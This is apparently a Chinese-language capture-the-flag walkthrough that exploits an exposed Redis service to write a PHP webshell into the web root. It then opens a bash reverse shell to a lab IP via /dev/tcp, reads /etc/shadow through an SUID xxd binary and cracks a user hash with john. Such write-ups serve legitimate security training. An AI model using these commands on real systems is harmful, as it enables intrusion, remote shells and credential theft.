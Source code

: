 ```plain
redis-cli -h 10.10.185.22 -p 6379
```

利用 redis 服务的命令进行 rce

```plain
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo();?>"
save
```

[![](assets/1706771526-9802d69df8f0ea9fbaeb5c7bdfe3265b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223227-399eef12-beb3-1.png)

之后访问 redis.php 发现有 phpinfo 的界面

之后可以重新写个 shell 进行，

这里我正常写 bash 的 shell 不太行，调用了绝对路径才能弹 shell

```plain
set test “<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/10.10.224.19/2333 0>&1’\”); ?>”
```

之后进入 shell，起一个标准的 pythonshell

suid 提权 xxd

先看一下/etc/shadow

```plain
xxd "/etc/shadow" | xxd -r
```

得到 vianka 的哈希，进行 john 爆破

[![](assets/1706771526-22ad0a4b1c8b70c2abc352a2f0f103bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223231-3c3a077a-beb3-1.png)
